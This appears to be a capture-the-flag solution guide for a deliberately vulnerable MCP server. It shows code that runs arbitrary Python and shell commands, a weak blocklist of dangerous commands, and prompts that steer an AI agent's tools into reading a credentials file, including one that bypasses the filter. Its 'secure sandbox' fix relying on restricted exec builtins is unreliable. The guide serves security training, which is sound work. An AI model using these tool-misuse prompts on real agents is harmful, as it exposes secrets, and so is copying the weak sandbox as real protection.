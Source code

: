# Challenge 8: Malicious Code Execution - Solution Guide

## Vulnerability

This challenge demonstrates a malicious code execution vulnerability in an MCP server. The MCP server executes code without proper validation or sandboxing, allowing attackers to run arbitrary code on the system.

## Solution

### Step 1: Reconnaissance

First, explore the server to understand what resources and tools are available:

1. Connect to the server at http://localhost:8008 using an MCP client
2. Examine the available resources and tools
3. Notice that there's a resource for system information (`system://info`) and tools for executing Python code (`execute_python_code`), executing shell commands (`execute_shell_command`), and analyzing log files (`analyze_log_file`)

### Step 2: Identify the Vulnerability

The vulnerability is in multiple tools that execute code without proper validation or sandboxing:

1. The `execute_python_code` tool executes arbitrary Python code without proper sandboxing:

```python
# VULNERABILITY: This tool executes arbitrary Python code without proper sandboxing
# A secure implementation would use a restricted environment, limit imports, etc.

try:
    # Create a temporary file to write the code
    with tempfile.NamedTemporaryFile(suffix='.py', delete=False) as temp_file:
        temp_file_path = temp_file.name
        temp_file.write(code.encode())
    
    # Execute the code and capture the output
    result = subprocess.check_output([sys.executable, temp_file_path], stderr=subprocess.STDOUT)
    
    # Clean up the temporary file
    os.unlink(temp_file_path)
    
    return f"Code executed successfully:\n\n{result.decode()}"
```

2. The `execute_shell_command` tool executes arbitrary shell commands with insufficient validation:

```python
# VULNERABILITY: This tool executes arbitrary shell commands without proper validation
# A secure implementation would whitelist allowed commands or use a restricted shell

try:
    # ATTEMPT at security (but insufficient): Block some dangerous commands
    dangerous_commands = ["rm", "mkfs", "dd", "format", ">", ">>"]
    
    # Check if the command contains any dangerous commands
    if any(cmd in command for cmd in dangerous_commands):
        return "Error: Command contains potentially dangerous operations and has been blocked."
    
    # Execute the command and capture the output
    result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
    
    return f"Command executed successfully:\n\n{result.decode()}"
```

3. The `analyze_log_file` tool can read any file on the system:

```python
# VULNERABILITY: This tool can be used to read any file on the system
# A secure implementation would restrict access to a specific directory
```

### Step 3: Exploit the Vulnerability

There are multiple ways to exploit this vulnerability:

#### Method 1: Execute malicious Python code

Use the `execute_python_code` tool to run code that accesses sensitive information:

```
Please execute the following Python code using the execute_python_code tool:

import os

# Read the sensitive credentials file
with open('/tmp/dvmcp_challenge8/sensitive/credentials.txt', 'r') as f:
    credentials = f.read()

print("Sensitive credentials:")
print(credentials)
```

#### Method 2: Execute shell commands to access sensitive information

Use the `execute_shell_command` tool to run commands that access sensitive information:

```
Please execute the shell command "cat /tmp/dvmcp_challenge8/sensitive/credentials.txt" using the execute_shell_command tool.
```

#### Method 3: Bypass the dangerous command filter

The dangerous command filter is insufficient and can be bypassed:

```
Please execute the shell command "cat /tmp/dvmcp_challenge8/sensitive/credentials.txt | grep -A 10 PRODUCTION" using the execute_shell_command tool.
```

#### Method 4: Use the analyze_log_file tool

Use the `analyze_log_file` tool to read the sensitive file:

```
Please analyze the log file at "/tmp/dvmcp_challenge8/sensitive/credentials.txt" using the analyze_log_file tool.
```

### Step 4: Access Sensitive Information

Using any of the methods above, you can access the sensitive credentials:

```
PRODUCTION CREDENTIALS
----------------------
Database:
  Host: db.acmecorp.internal
  Username: db_admin
  Password: Pr0d-DB-S3cur3!P@$$w0rd

AWS:
  Access Key ID: AKIAIOSFODNN7EXAMPLE
  Secret Access Key: wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
  Region: us-west-2

API Gateway:
  Key: apg-prod-8a7b6c5d4e3f2g1h
  Secret: 9i8u7y6t5r4e3w2q1z0x9c8v7b6n5m4k3j2h1g
```

## Mitigation Strategies

To prevent malicious code execution vulnerabilities:

1. **Implement proper sandboxing**: Use secure sandboxing techniques to isolate code execution.

2. **Use allowlists instead of blocklists**: Define a specific set of allowed commands or operations rather than trying to block dangerous ones.

3. **Limit access to system resources**: Restrict access to file systems, network, and other system resources.

4. **Implement input validation**: Validate all inputs to ensure they meet expected formats and don't contain malicious code.

5. **Use the principle of least privilege**: Only grant the minimum permissions necessary for the intended functionality.

Example of improved code for the `execute_python_code` tool:

```python
def execute_python_code(code: str) -> str:
    """Execute Python code for data analysis."""
    try:
        # Create a secure sandbox environment
        sandbox = {
            '__builtins__': {
                'print': print,
                'len': len,
                'str': str,
                'int': int,
                'float': float,
                'bool': bool,
                'list': list,
                'dict': dict,
                'tuple': tuple,
                'range': range,
                'sum': sum,
                'min': min,
                'max': max,
                # Add other safe builtins as needed
            }
        }
        
        # Execute the code in the sandbox
        exec(code, sandbox)
        
        # Capture the output (in a real implementation, you would redirect stdout)
        # This is a simplified example
        if '_output' in sandbox:
            return f"Code executed successfully:\n\n{sandbox['_output']}"
        else:
            return "Code executed successfully (no output)"
    except Exception as e:
        return f"Error executing code: {str(e)}"
```

This improved implementation:
1. Creates a secure sandbox with only safe built-in functions
2. Doesn't allow access to dangerous modules like `os`, `sys`, `subprocess`, etc.
3. Executes the code in the sandbox rather than as a separate process
4. Provides clear error messages without leaking system information
